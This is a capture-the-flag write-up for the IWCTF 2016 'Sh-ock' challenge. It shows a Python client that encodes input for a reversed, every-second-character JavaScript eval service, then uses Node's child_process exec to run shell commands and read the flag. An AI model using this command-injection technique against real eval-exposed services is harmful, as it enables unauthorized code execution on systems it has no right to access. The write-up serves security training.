 # IWCTF 2016 - Exploit - Sh-ock - 90 pts

> Description: This is some kind of weird thing. I am sh-ocked.

> Service: 188.166.133.53:12589 

# Write-up

After connecting to the specified service, we'll get a prompt looking like a shell at first.

But after trying some commands, it gets obvious, that this ain't your normal shell, and it also has an awkward way of reading input.

```shell
$ nc 188.166.133.53 12589
Welcome and have fun!
$ls
[ReferenceError: l is not defined]
$abcdefg
[ReferenceError: fdb is not defined]
```

The error message reveals, that our input gets parsed backwards and it only reads every second character.

Adapting to this:

```shell
$l.a.v.e.
[Function: eval]
```

It seems to be some javascript interpreter. To make it a bit easier to communicate with the service, I wrote a (quick&dirty) python script, which reverses the input and adds the needed placeholders. It then occured, that the longer our command is, the more placeholders were needed (count of dots found by empirical analysis ;-))

```python
#!/usr/bin/python
from socket import *
import sys
import time

BANNER = "Welcome and have fun!\n"

s = None

def connect():
	global s
	s = socket(AF_INET, SOCK_STREAM)
	s.connect(("188.166.133.53",12589))
	banner = s.recv(len(BANNER))
	print banner

def obfuscate(cmd):
	rev = cmd[::-1]
	res = ""

	for ch in rev:
		res += ch

		if len(cmd)<5:
			res += "."
		elif len(cmd)<6:
			res += ".."
		elif len(cmd)<8:
			res += "..."
		elif len(cmd)<9:
			res += "...."
		else:
			res += "....."
	
	return res

def execCmd():
	global s
	input = raw_input(prompt)
	cmd = obfuscate(input)+"\n"
	print "Cmd: %s" % cmd
	s.send(cmd)
	time.sleep(0.5)
	response = s.recv(4096)
	print "Response: %s" % response

connect()

prompt = s.recv(1)

while True:
	execCmd()
``` 

With this out of the way, we can start to find a way to exploit this thing.

```shell
$ python comm.py 
Welcome and have fun!

$sys=require('sys')
Cmd: ).....'.....s.....y.....s.....'.....(.....e.....r.....i.....u.....q.....e.....r.....=.....s.....y.....s.....

Response: { format: [Function],
  deprecate: [Function],
  debuglog: [Function],
  inspect: 
   { [Function: inspect]
[SNIP]
  _exceptionWithHostPort: [Function] }

$exec=require('child_process').exec
Cmd: c.....e.....x.....e...........).....'.....s.....s.....e.....c.....o.....r.....p....._.....d.....l.....i.....h.....c.....'.....(.....e.....r.....i.....u.....q.....e.....r.....=.....c.....e.....x.....e.....

Response: [Function]

$foo=exec("ls -la",function(error,stdout,stdin){sys.print(stdout)})
Cmd: ).....}.....).....t.....u.....o.....d.....t.....s.....(.....t.....n.....i.....r.....p...........s.....y.....s.....{.....).....n.....i.....d.....t.....s.....,.....t.....u.....o.....d.....t.....s.....,.....r.....o.....r.....r.....e.....(.....n.....o.....i.....t.....c.....n.....u.....f.....,.....".....a.....l.....-..... .....s.....l.....".....(.....c.....e.....x.....e.....=.....o.....o.....f.....

Response: ChildProcess {
  domain: null,
  _events: 
   { close: [Function: exithandler],
     error: [Function: errorhandler] },
  _eventsCount: 2,
  _maxListeners: undefined,
  _closesNeeded: 3,
  _closesGot: 0,
  connected: false,
  signalCode: null,
  exitCode: null,
  killed: false,
  spawnfile: '/bin/sh',
  _handle: Process { owner: [Circular], onexit: [Function], pid: 28225 },
  spawnargs: [ '/bin/sh', '-c', 'ls -la' ],
  pid: 28225,
[SNIP]

$foo()
Cmd: )..(..o..o..f..

Response: wHalfOpen: false,
     destroyed: false,
     bytesRead: 0,
     _bytesDispatched: 0,
     _sockname: null,
     _writev: null,
     _pendingData: null,
     _pendingEncoding: '' },
[SNIP]
       _pendingEncoding: '' } ] }
$total 16
drwxr-x---  2 root exp90 4096 Feb 21 03:23 .
drwxr-xr-x 14 root exp90 4096 Feb 11 12:19 ..
-rw-r--r--  1 root exp90   24 Feb 11 18:23 flag.txt
-rw-r--r--  1 root exp90 1011 Feb 11 18:23 task.js
[TypeError: foo is not a function]
$
```

There it is, let's grab it and finish this...

```shell
$foo=exec("cat flag.txt",function(error,stdout,stdin){sys.print(stdout)})
Cmd: ).....}.....).....t.....u.....o.....d.....t.....s.....(.....t.....n.....i.....r.....p...........s.....y.....s.....{.....).....n.....i.....d.....t.....s.....,.....t.....u.....o.....d.....t.....s.....,.....r.....o.....r.....r.....e.....(.....n.....o.....i.....t.....c.....n.....u.....f.....,.....".....t.....x.....t...........g.....a.....l.....f..... .....t.....a.....c.....".....(.....c.....e.....x.....e.....=.....o.....o.....f.....

Response: ChildProcess {
  domain: null,
[SNIP]

$foo()
Cmd: )..(..o..o..f..

Response:   allowHalfOpen: false,
     destroyed: false,
     bytesRead: 0,
[SNIP]
       _pendingEncoding: '' } ] }
$IW{Shocked-for-nothing!}[TypeError: foo is not a function]
```

Flag: `$IW{Shocked-for-nothing!}`
